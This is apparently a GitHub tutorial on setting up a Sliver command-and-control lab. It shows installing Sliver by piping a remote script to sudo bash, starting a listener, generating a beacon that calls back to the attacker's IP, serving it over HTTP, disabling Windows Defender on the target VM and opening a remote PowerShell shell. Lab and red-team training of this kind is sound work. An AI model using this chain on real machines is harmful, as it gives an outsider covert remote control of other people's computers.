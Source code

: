 # How To Create a Listener Server Using Sliver


This tutorial will cover how to setup a [Sliver](https://github.com/BishopFox/sliver) host  (*Tested with Ubuntu 20.04 but should work with other distributions*)

## Linux One-Liner Installation
To get started, the simplest way is to utilize their 'one-liner' installation.

Simply go to any terminal with elevated permissions and run

`curl https://sliver.sh/install | sudo bash`

This should begin the installation process for whatever version of Linux you are using.

> **Note: The Sliver host *can* be a Windows machine, but Sliver themselves advise against it as some features will not work as expected**

Before you run the service, you may want to install `mingw-w64` to allow DLL payloads and shellcode to be deployed.

To run the service, simply type `sliver` into your terminal and it should start up. 

**Before you start the service, please take note of your IP address using either `ip address` or `hostname -I` if not already known**

## Listeners
The most basic feature that we will be utilizing first is a listener. To start a listener, open sliver and input `http -l <port>`. You can also just run `http` to open the default port of 80. However, I used port 8080 as this will be useful in future steps when running the file server.

If you attempt to open a port that is already running a listener, your output will look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4bf1145e-1ad9-4a5b-8aef-5432707c1191)

Whereas open ports should look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/13167cbb-ec28-410d-be99-53834cf49d44)

For now, just open one listener at port 8080 and then continue on in this guide.

If you wish to see which listeners are running, type `jobs` into the terminal to see

## Beacons
The next step is to utilize this listener using a beacon. A beacon is a generated executable that once run on the machine to be infected (we'll get there soon), will allow you to run commands as said infected computer.

To create the beacon, you will run a command similar to the following:
`generate beacon -b <YOURLINUXIP>:8080`
![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6fa50ec3-a52f-46a2-9417-b113cf6512c6)

This will create an executable which you will serve up to the machine that is to be 'infected' (for non-malicious purposes, of course)

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server (&)`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer (&)`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
Infecting the Windows Machine will first and foremost require some changes to Windows Defender. Sadly, due to the popularity of this tool, Windows Defender has wisened up and will recognize the signature, not allowing you to run the executable otherwise. Locate the Virus & threat protection settings using the search bar:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e5940d54-f229-4a8c-ac8d-5348e5e0735c)

Go to Virus & thread protection settings:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9453cae9-69e5-45d8-99af-656e03381fd1)

And at the bare minimum, disable Automatic sample submission:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/14c88c42-34e5-44f2-86c8-eee6e3af397e)

I went ahead and disabled all, as this is a virtual machine purely for the sake of testing and didn't want any impedence.

### Open Server on Any Internet Browser

Next, open any internet browser (I used Internet Explorer) and access the file server that was previously opened in the Serve Up Executable step.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/771bde13-a11d-44ef-a6a8-3a0ad32f5875)

What you should then find is a very simple webpage with the files listed at the directory where the executable is.
(You should only see one executable, unless you generated multiple like me)

> If there is no page found, then you probably are experiencing the same issue I was, which is... networking.
> To fix this, I utilized Port Forwarding on Virtualbox between my two machines, and a inter-machine NAT Network that took a while to figure out. Networking with virtual machines can be a huge pain, so if you like a guide, I would look [here](https://www.youtube.com/watch?v=t4qqir33snI)

Otherwise, you should see something like this

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9ff21807-a837-4f85-8273-8cd8c4db1620)

Next, click on the hyperlink to the executable and run:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/5c3826c2-1326-4972-bd40-20b92a489d56)

Upon doing so, Sliver should hint that someone is falling for the trap!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e39daf73-fadf-4e85-bcc9-6ffe44c517f3)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/58d94a92-6821-4ae1-9eb7-1d6441dabbdf)

Once the executable is done running, you are done with the client. You're in, that easy!

## The Door's Open, Now What?

Upon the executable finishing its execution, you should see this on your sliver host:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/fa5ba95f-5ea8-4a51-8bf1-7d0fdfc31e32)

You can type `beacons` into your terminal to see the newly infected computer available to your host (i've done this a few times):

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e3b5b35-65b8-4e43-a720-34925cf075dd)

### Open a Session
Next, you will open up a session with your infected client.

Simply type `use`, tab to auto fill the session id, and press enter on the desired session:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/53040da1-fe03-414f-8772-2c25fa2465f6)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/ed2a4b69-a89a-4c70-84d1-5e4c26b3884a)

Now that the session is open, you have a myriad of options available to you. I will not cover all of them, except an important one, which is opening a powershell session on the infected client.

### Powershell Session
To open a shell, you may notice that the `shell` command doesn't immediately work, and that your session color is blue instead of red:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/659ad9b0-f5ec-4567-8ff7-a04b7b63343b)

That is because you need to open an `interactive` session.

To do so, first type `interactive` into your terminal.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b45c64a1-a837-4b21-b4a0-bfd8906b69c9)

Open that new session using use:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b91232d9-de5f-44a0-a555-e25908095612)

This will open an 'interactive' session which will allow you to run a shell.

Now, simply type `shell` into your terminal, accept the disclaimer, and you can now run powershell commands on your client as if you were the user!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/bdbbf84b-ee17-4eb3-a44c-1ba6e713ea1f)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6da377ef-b521-4609-b08f-c8cb283d08b1)

This shell can now be used to run atomic tests, or whatever else you could think to do with this.

Happy coding!




